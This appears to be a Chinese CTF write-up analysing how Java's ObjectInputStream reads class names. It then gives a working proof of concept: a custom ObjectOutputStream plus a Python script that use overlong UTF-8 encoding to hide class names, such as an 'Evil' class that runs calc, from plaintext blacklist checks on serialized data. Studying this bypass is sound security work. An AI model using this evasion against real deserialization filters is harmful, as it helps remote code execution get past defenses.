








# 问题由来

这两天在做PolarCTF2025夏季赛碰到了一个对序列化字符串明文的检查，具体实现代码是这样的

```java
package com.polar.ctf.utils;

/* loaded from: ez_check.jar:BOOT-INF/classes/com/polar/ctf/utils/Checker.class */
public class Checker {
    public byte[][] checkCases = {
            ...};

    private void build(byte[] P, int[] next, int m) {
        next[0] = -1;
        int k = -1;
        for (int j = 0; j < m - 1; j++) {
            while (k >= 0 && P[k] != P[j]) {
                k = next[k];
            }
            int var = j + 1;
            k++;
            next[var] = k;
        }
    }

    public boolean KmpCheck(byte[] data) {
        for (byte[] checkCase : this.checkCases) {
            int[] next = new int[checkCase.length];
            build(checkCase, next, checkCase.length);
            int i = 0;
            int j = 0;
            while (i < data.length) {
                if (j == -1 || data[i] == checkCase[j]) {
                    i++;
                    j++;
                    if (j == checkCase.length) {
                        System.out.println("checkCase: " + new String(checkCase));
                        return true;
                    }
                } else {
                    j = next[j];
                }
            }
        }
        return false;
    }
}
```

什么意思呢？

本地写个测试文件

```java
package TestCode;

import java.io.Serializable;

public class Evil implements Serializable {
    static {
        try{
            Runtime.getRuntime().exec("calc");
        }catch(Exception e){
            throw new RuntimeException(e);
        }
    }
}
```

然后用序列化操作进行处理，其序列化后的数据长这样



可以看到其中的类名是呈现明文的形式

换成之前的链子序列化出来的东西也是一样的

例如CC1



所以基于这种情况就诞生了一种WAF方式，就是通过对序列化字符串明文的检查达到一个过滤的效果，简单来说就是直接从序列化字符串中进行黑名单检测

既然会对序列化字符串明文进行检查，那如何既能绕过该检查还能被正常的反序列化出来呢？

# 初步探索

先看一下ObjectInputStream的有参构造函数都干了什么

```java
    public ObjectInputStream(InputStream in) throws IOException {
        verifySubclass();
        bin = new BlockDataInputStream(in);
        handles = new HandleTable(10);
        vlist = new ValidationList();
        enableOverride = false;
        readStreamHeader();
        bin.setBlockDataMode(true);
    }
```

可以看到这里进行了一些初始配置，包括enableOverride初始是为false

我们回头看一下反序列化的操作

## ObjectInputStream#readObject

先看到readObject方法

```java
    public final Object readObject()
        throws IOException, ClassNotFoundException
    {
        if (enableOverride) {
            return readObjectOverride();
        }

        // if nested read, passHandle contains handle of enclosing object
        int outerHandle = passHandle;
        try {
            Object obj = readObject0(false);
            handles.markDependency(outerHandle, passHandle);
            ClassNotFoundException ex = handles.lookupException(passHandle);
            if (ex != null) {
                throw ex;
            }
            if (depth == 0) {
                vlist.doCallbacks();
            }
            return obj;
        } finally {
            passHandle = outerHandle;
            if (closed && depth == 0) {
                clear();
            }
        }
    }
```

先是检测是否开启了覆盖模式，主要是用于子类自定义反序列化行为，`ObjectInputStream` 有一个受保护的构造方法，可以让子类重写 `readObjectOverride()` 去实现自己的协议。

随后保存外层对象的句柄，用于处理嵌套对象的情况

调用readObject0函数进行反序列化操作，false表示unshared，我们跟进readObject0函数看看

内容比较长，我们分段进行解析

```java
        boolean oldMode = bin.getBlockDataMode();
        if (oldMode) {
            int remain = bin.currentBlockRemaining();
            if (remain > 0) {
                throw new OptionalDataException(remain);
            } else if (defaultDataEnd) {
                throw new OptionalDataException(true);
            }
            bin.setBlockDataMode(false);
        }
```

这是处理block data块数据模式的逻辑

`ObjectInputStream` 在反序列化过程中会进入两种模式：

- **Object Mode（对象模式）**
   按序列化协议读对象。
- **Block Data Mode（块数据模式）**
  - 主要在 `writeObject()` 里写入 primitive 类型（如 int, double）时被启用。
  - 数据被写成“块”，每个块带长度。
  - 对应 `readObject()` 需要从这种块里读取原始数据。

```java
        byte tc;
        while ((tc = bin.peekByte()) == TC_RESET) {
            bin.readByte();
            handleReset();
        }
```

`tc = bin.peekByte()`读取下一字节并检测是否是`TC_RESET`重置对象引用的句柄，注意：这里不会移动指针，先读取后操作

如果是相等的话会readByte读取字节并处理 reset 逻辑，这里的话用的是while循环，所以每个TC_RESET句柄都会处理

那什么是TC_RESET呢？其实就是清空反序列化时的已读对象句柄表，这意味着下一次读取同一个对象的时候会把该对象看作是新对象去处理并分配句柄

```java
        depth++;
```

记录递归深度，用于跟踪嵌套对象的层级

```java
        try {
            switch (tc) {
                case TC_NULL:
                    return readNull();

                case TC_REFERENCE:
                    return readHandle(unshared);

                case TC_CLASS:
                    return readClass(unshared);

                case TC_CLASSDESC:
                case TC_PROXYCLASSDESC:
                    return readClassDesc(unshared);

                case TC_STRING:
                case TC_LONGSTRING:
                    return checkResolve(readString(unshared));

                case TC_ARRAY:
                    return checkResolve(readArray(unshared));

                case TC_ENUM:
                    return checkResolve(readEnum(unshared));

                case TC_OBJECT:
                    return checkResolve(readOrdinaryObject(unshared));

                case TC_EXCEPTION:
                    IOException ex = readFatalException();
                    throw new WriteAbortedException("writing aborted", ex);

                case TC_BLOCKDATA:
                case TC_BLOCKDATALONG:
                    if (oldMode) {
                        bin.setBlockDataMode(true);
                        bin.peek();             // force header read
                        throw new OptionalDataException(
                            bin.currentBlockRemaining());
                    } else {
                        throw new StreamCorruptedException(
                            "unexpected block data");
                    }

                case TC_ENDBLOCKDATA:
                    if (oldMode) {
                        throw new OptionalDataException(true);
                    } else {
                        throw new StreamCorruptedException(
                            "unexpected end of block data");
                    }

                default:
                    throw new StreamCorruptedException(
                        String.format("invalid type code: %02X", tc));
            }
        } finally {
            depth--;
            bin.setBlockDataMode(oldMode);
        }
```

这里的话就是根据类型去调用不同的方法处理数据类型，例如`TC_NULL`表示null对象类型，就需要调用readNull函数去进行处理

## ObjectInputStream#readClass

我们看到TC_CLASS标识下对对象的处理readClass函数

```java
    private Class<?> readClass(boolean unshared) throws IOException {
        if (bin.readByte() != TC_CLASS) {
            throw new InternalError();
        }
        ObjectStreamClass desc = readClassDesc(false);
        Class<?> cl = desc.forClass();
        passHandle = handles.assign(unshared ? unsharedMarker : cl);

        ClassNotFoundException resolveEx = desc.getResolveException();
        if (resolveEx != null) {
            handles.markException(passHandle, resolveEx);
        }

        handles.finish(passHandle);
        return cl;
    }
```

跟进readClassDesc函数

```java
    private ObjectStreamClass readClassDesc(boolean unshared)
        throws IOException
    {
        byte tc = bin.peekByte();
        switch (tc) {
            case TC_NULL:
                return (ObjectStreamClass) readNull();

            case TC_REFERENCE://已存在的类
                return (ObjectStreamClass) readHandle(unshared);

            case TC_PROXYCLASSDESC://动态代理类
                return readProxyDesc(unshared);

            case TC_CLASSDESC://普通类
                return readNonProxyDesc(unshared);

            default:
                throw new StreamCorruptedException(
                    String.format("invalid type code: %02X", tc));
        }
    }
```

同样的操作，我们看到普通类的操作readNonProxyDesc

## ObjectInputStream#readNonProxyDesc

```java
    private ObjectStreamClass readNonProxyDesc(boolean unshared)
        throws IOException
    {
        if (bin.readByte() != TC_CLASSDESC) {
            throw new InternalError();
        }

        ObjectStreamClass desc = new ObjectStreamClass();
        int descHandle = handles.assign(unshared ? unsharedMarker : desc);
        passHandle = NULL_HANDLE;

        ObjectStreamClass readDesc = null;
        try {
            readDesc = readClassDescriptor();
        } catch (ClassNotFoundException ex) {
            throw (IOException) new InvalidClassException(
                "failed to read class descriptor").initCause(ex);
        }

        Class<?> cl = null;
        ClassNotFoundException resolveEx = null;
        bin.setBlockDataMode(true);
        final boolean checksRequired = isCustomSubclass();
        try {
            if ((cl = resolveClass(readDesc)) == null) {
                resolveEx = new ClassNotFoundException("null class");
            } else if (checksRequired) {
                ReflectUtil.checkPackageAccess(cl);
            }
        } catch (ClassNotFoundException ex) {
            resolveEx = ex;
        }
        skipCustomData();

        desc.initNonProxy(readDesc, cl, resolveEx, readClassDesc(false));

        handles.finish(descHandle);
        passHandle = descHandle;
        return desc;
    }
```

先是创建类描述符并分配句柄，然后为这个类描述符分配一个句柄，由于是unshared非共享对象引用，所以会分配desc对象本身

重置了一下passHandle，然后进行类描述符的读取，跟进readClassDescriptor函数

```java
    protected ObjectStreamClass readClassDescriptor()
        throws IOException, ClassNotFoundException
    {
        ObjectStreamClass desc = new ObjectStreamClass();
        desc.readNonProxy(this);
        return desc;
    }
```

跟进readNonProxy方法

## ObjectStreamClass#readNonProxy

```java
    void readNonProxy(ObjectInputStream in)
        throws IOException, ClassNotFoundException
    {
        name = in.readUTF();
        suid = Long.valueOf(in.readLong());
        isProxy = false;

        byte flags = in.readByte();
        hasWriteObjectData =
            ((flags & ObjectStreamConstants.SC_WRITE_METHOD) != 0);
        hasBlockExternalData =
            ((flags & ObjectStreamConstants.SC_BLOCK_DATA) != 0);
        externalizable =
            ((flags & ObjectStreamConstants.SC_EXTERNALIZABLE) != 0);
        boolean sflag =
            ((flags & ObjectStreamConstants.SC_SERIALIZABLE) != 0);
        if (externalizable && sflag) {
            throw new InvalidClassException(
                name, "serializable and externalizable flags conflict");
        }
        serializable = externalizable || sflag;
        isEnum = ((flags & ObjectStreamConstants.SC_ENUM) != 0);
        if (isEnum && suid.longValue() != 0L) {
            throw new InvalidClassException(name,
                "enum descriptor has non-zero serialVersionUID: " + suid);
        }

        int numFields = in.readShort();
        if (isEnum && numFields != 0) {
            throw new InvalidClassException(name,
                "enum descriptor has non-zero field count: " + numFields);
        }
        fields = (numFields > 0) ?
            new ObjectStreamField[numFields] : NO_FIELDS;
        for (int i = 0; i < numFields; i++) {
            char tcode = (char) in.readByte();
            String fname = in.readUTF();
            String signature = ((tcode == 'L') || (tcode == '[')) ?
                in.readTypeString() : new String(new char[] { tcode });
            try {
                fields[i] = new ObjectStreamField(fname, signature, false);
            } catch (RuntimeException e) {
                throw (IOException) new InvalidClassException(name,
                    "invalid descriptor for field " + fname).initCause(e);
            }
        }
        computeFieldOffsets();
    }
```

注意到关键的一步`name = in.readUTF();`，读取类的全限定类名，跟进看看

## BlockDataInputStream#readUTFBody

```java
ObjectInputStream#readUTF()
public String readUTF() throws IOException {
    return bin.readUTF();
}

BlockDataInputStream#readUTF()
public String readUTF() throws IOException {
    return readUTFBody(readUnsignedShort());
}

BlockDataInputStream#readUTFBody()
private String readUTFBody(long utflen) throws IOException {
    StringBuilder sbuf = new StringBuilder();
    if (!blkmode) {
        end = pos = 0;
    }

    while (utflen > 0) {
        int avail = end - pos;
        if (avail >= 3 || (long) avail == utflen) {
            utflen -= readUTFSpan(sbuf, utflen);
        } else {
            if (blkmode) {
                // near block boundary, read one byte at a time
                utflen -= readUTFChar(sbuf, utflen);
            } else {
                // shift and refill buffer manually
                if (avail > 0) {
                    System.arraycopy(buf, pos, buf, 0, avail);
                }
                pos = 0;
                end = (int) Math.min(MAX_BLOCK_SIZE, utflen);
                in.readFully(buf, avail, end - avail);
            }
        }
    }

    return sbuf.toString();
}
```

在BlockDataInputStream#readUTF()中先调用readUnsignedShort()从流里先读一个 `unsigned short`，也就是UTF字节长度，为2字节

然后readUTFBody函数中就是循环读取所有 UTF-8 字节并解码，跟进readUTFSpan函数

## BlockDataInputStream#readUTFSpan

分段看一下

```java
int cpos = 0;
int start = pos;
int avail = Math.min(end - pos, CHAR_BUF_SIZE);
// stop short of last char unless all of utf bytes in buffer
int stop = pos + ((utflen > avail) ? avail - 2 : (int) utflen);
boolean outOfBounds = false;
```

记录开始的位置，可读取的字节数，还有就是计算停止的位置，这里做了一个预留操作，如果`utflen > avail`也就是需要处理的数据长度大于可读取的字节数，就预留两个字节出来，因为最后一个UTF字符可能是三字节的。最后outOfBounds 是用来捕获数组越界异常的

```java
while (pos < stop) {
    int b1, b2, b3;
    b1 = buf[pos++] & 0xFF;
    switch (b1 >> 4) {
        case 0:
        case 1:
        case 2:
        case 3:
        case 4:
        case 5:
        case 6:
        case 7:   // 1 byte format: 0xxxxxxx
            cbuf[cpos++] = (char) b1;
            break;

        case 12:
        case 13:  // 2 byte format: 110xxxxx 10xxxxxx
            b2 = buf[pos++];
            if ((b2 & 0xC0) != 0x80) {
                throw new UTFDataFormatException();
            }
            cbuf[cpos++] = (char) (((b1 & 0x1F) << 6) |
                                   ((b2 & 0x3F) << 0));
            break;

        case 14:  // 3 byte format: 1110xxxx 10xxxxxx 10xxxxxx
            b3 = buf[pos + 1];
            b2 = buf[pos + 0];
            pos += 2;
            if ((b2 & 0xC0) != 0x80 || (b3 & 0xC0) != 0x80) {
                throw new UTFDataFormatException();
            }
            cbuf[cpos++] = (char) (((b1 & 0x0F) << 12) |
                                   ((b2 & 0x3F) << 6) |
                                   ((b3 & 0x3F) << 0));
            break;

        default:  // 10xx xxxx, 1111 xxxx
            throw new UTFDataFormatException();
    }
}
```

读取第一个字节并转换为无符号整数，`& 0xFF`的作用就是将有符号 byte 转换为无符号 int

`b1 >> 4`用来判断UTF-8编码类型，并分别给出了单字节，双字节以及三字节字符三种情况下的处理

# 绕过思路

基于上面的分析我们不难看出，Java的ObjectInputStream在反序列化获取类名的时候会经过以下几个函数

```java
ObjectInputStream#readObject()
    ->ObjectInputStream#readClass(boolean unshared)
    	->ObjectInputStream#readNonProxyDesc(boolean unshared)
            ->ObjectStreamClass#readNonProxy(ObjectInputStream in)
                -> ObjectInputStream#readUTF()
                    -> BlockDataInputStream#readUTF()
                        -> ObjectInputStream#readUTFBody(long utflen)
                            -> ObjectInputStream#readUTFSpan(StringBuilder sbuf, long utflen)
```

并且是会对UTF-8编码进行处理的，至此，我们可以实现序列化字符串中的所有className字符串的不可读，从而绕过字符串明文的检查

# 最终POC

通过继承ObjectOutputStream来修改序列化时写入的数据

```java
package SerializeChains.UTF_bypass;

import java.io.*;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.HashMap;

public class CustomObjectOutputStream extends ObjectOutputStream {

    private static HashMap<Character, int[]> map;
    static {
        map = new HashMap<>();
        map.put('.', new int[]{0xc0, 0xae});
        map.put(';', new int[]{0xc0, 0xbb});
        map.put('$', new int[]{0xc0, 0xa4});
        map.put('[', new int[]{0xc1, 0x9b});
        map.put(']', new int[]{0xc1, 0x9d});
        map.put('a', new int[]{0xc1, 0xa1});
        map.put('b', new int[]{0xc1, 0xa2});
        map.put('c', new int[]{0xc1, 0xa3});
        map.put('d', new int[]{0xc1, 0xa4});
        map.put('e', new int[]{0xc1, 0xa5});
        map.put('f', new int[]{0xc1, 0xa6});
        map.put('g', new int[]{0xc1, 0xa7});
        map.put('h', new int[]{0xc1, 0xa8});
        map.put('i', new int[]{0xc1, 0xa9});
        map.put('j', new int[]{0xc1, 0xaa});
        map.put('k', new int[]{0xc1, 0xab});
        map.put('l', new int[]{0xc1, 0xac});
        map.put('m', new int[]{0xc1, 0xad});
        map.put('n', new int[]{0xc1, 0xae});
        map.put('o', new int[]{0xc1, 0xaf}); // 0x6f
        map.put('p', new int[]{0xc1, 0xb0});
        map.put('q', new int[]{0xc1, 0xb1});
        map.put('r', new int[]{0xc1, 0xb2});
        map.put('s', new int[]{0xc1, 0xb3});
        map.put('t', new int[]{0xc1, 0xb4});
        map.put('u', new int[]{0xc1, 0xb5});
        map.put('v', new int[]{0xc1, 0xb6});
        map.put('w', new int[]{0xc1, 0xb7});
        map.put('x', new int[]{0xc1, 0xb8});
        map.put('y', new int[]{0xc1, 0xb9});
        map.put('z', new int[]{0xc1, 0xba});
        map.put('A', new int[]{0xc1, 0x81});
        map.put('B', new int[]{0xc1, 0x82});
        map.put('C', new int[]{0xc1, 0x83});
        map.put('D', new int[]{0xc1, 0x84});
        map.put('E', new int[]{0xc1, 0x85});
        map.put('F', new int[]{0xc1, 0x86});
        map.put('G', new int[]{0xc1, 0x87});
        map.put('H', new int[]{0xc1, 0x88});
        map.put('I', new int[]{0xc1, 0x89});
        map.put('J', new int[]{0xc1, 0x8a});
        map.put('K', new int[]{0xc1, 0x8b});
        map.put('L', new int[]{0xc1, 0x8c});
        map.put('M', new int[]{0xc1, 0x8d});
        map.put('N', new int[]{0xc1, 0x8e});
        map.put('O', new int[]{0xc1, 0x8f});
        map.put('P', new int[]{0xc1, 0x90});
        map.put('Q', new int[]{0xc1, 0x91});
        map.put('R', new int[]{0xc1, 0x92});
        map.put('S', new int[]{0xc1, 0x93});
        map.put('T', new int[]{0xc1, 0x94});
        map.put('U', new int[]{0xc1, 0x95});
        map.put('V', new int[]{0xc1, 0x96});
        map.put('W', new int[]{0xc1, 0x97});
        map.put('X', new int[]{0xc1, 0x98});
        map.put('Y', new int[]{0xc1, 0x99});
        map.put('Z', new int[]{0xc1, 0x9a});
    }
    public CustomObjectOutputStream(OutputStream out) throws IOException {
        super(out);
    }

    @Override
    protected void writeClassDescriptor(ObjectStreamClass desc) throws IOException {
        String name = desc.getName();
//        writeUTF(desc.getName());
        writeShort(name.length() * 2);
        for (int i = 0; i < name.length(); i++) {
            char s = name.charAt(i);
//            System.out.println(s);
            write(map.get(s)[0]);
            write(map.get(s)[1]);
        }
        writeLong(desc.getSerialVersionUID());
        try {
            byte flags = 0;
            if ((boolean)getFieldValue(desc,"externalizable")) {
                flags |= ObjectStreamConstants.SC_EXTERNALIZABLE;
                Field protocolField = ObjectOutputStream.class.getDeclaredField("protocol");
                protocolField.setAccessible(true);
                int protocol = (int) protocolField.get(this);
                if (protocol != ObjectStreamConstants.PROTOCOL_VERSION_1) {
                    flags |= ObjectStreamConstants.SC_BLOCK_DATA;
                }
            } else if ((boolean)getFieldValue(desc,"serializable")){
                flags |= ObjectStreamConstants.SC_SERIALIZABLE;
            }
            if ((boolean)getFieldValue(desc,"hasWriteObjectData")) {
                flags |= ObjectStreamConstants.SC_WRITE_METHOD;
            }
            if ((boolean)getFieldValue(desc,"isEnum") ) {
                flags |= ObjectStreamConstants.SC_ENUM;
            }
            writeByte(flags);
            ObjectStreamField[] fields = (ObjectStreamField[]) getFieldValue(desc,"fields");
            writeShort(fields.length);
            for (int i = 0; i < fields.length; i++) {
                ObjectStreamField f = fields[i];
                writeByte(f.getTypeCode());
                writeUTF(f.getName());
                if (!f.isPrimitive()) {
                    Method writeTypeString = ObjectOutputStream.class.getDeclaredMethod("writeTypeString",String.class);
                    writeTypeString.setAccessible(true);
                    writeTypeString.invoke(this,f.getTypeString());
//                    writeTypeString(f.getTypeString());
                }
            }
        } catch (NoSuchFieldException e) {
            throw new RuntimeException(e);
        } catch (IllegalAccessException e) {
            throw new RuntimeException(e);
        } catch (NoSuchMethodException e) {
            throw new RuntimeException(e);
        } catch (InvocationTargetException e) {
            throw new RuntimeException(e);
        }
    }

    public static Object getFieldValue(Object object, String fieldName) throws NoSuchFieldException, IllegalAccessException {
        Class<?> clazz = object.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        Object value = field.get(object);

        return value;
    }
}
```

我们重新序列化一下刚刚的Evil实例对象

```java
package TestCode;

import SerializeChains.UTF_bypass.CustomObjectOutputStream;

import java.io.*;

public class Test {
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        Evil evil = new Evil();
        CustomObjectOutputStream oos = new CustomObjectOutputStream(new FileOutputStream("Test.txt"));
        oos.writeObject(evil);
        oos.close();
    }
}
```



可以看到此时数据基本不可读，成功Bypass

我们拿CC1的链子试一下





并不会影响反序列化，success！

# 强化一下

其实从CC1中还是可以看到有些字符是明文显示的，是否可以进一步强化呢？当然是可以的

p牛之前有篇文章也写到了这个问题：https://www.leavesongs.com/PENETRATION/utf-8-overlong-encoding.html





翻译一下



p牛的一个简单脚本

```python
def convert_int(i: int) -> bytes:
    b1 = ((i >> 6) & 0b11111) | 0b11000000
    b2 = (i & 0b111111) | 0b10000000
    return bytes([b1, b2])


def convert_str(s: str) -> bytes:
    bs = b''
    for ch in s.encode():
        bs += convert_int(ch)

    return bs


if __name__ == '__main__':
    print(convert_str('.')) # b'\xc0\xae'
    print(convert_str('org.example.Evil')) # b'\xc1\xaf\xc1\xb2\xc1\xa7\xc0\xae\xc1\xa5\xc1\xb8\xc1\xa1\xc1\xad\xc1\xb0\xc1\xac\xc1\xa5\xc0\xae\xc1\x85\xc1\xb6\xc1\xa9\xc1\xac'
```

参考文章：

https://vidar-team.feishu.cn/docx/LJN4dzu1QoEHt4x3SQncYagpnGd

https://docs.oracle.com/en/java/javase/23/docs/api/java.base/java/io/DataInput.html#modified-utf-8

https://www.leavesongs.com/PENETRATION/utf-8-overlong-encoding.html
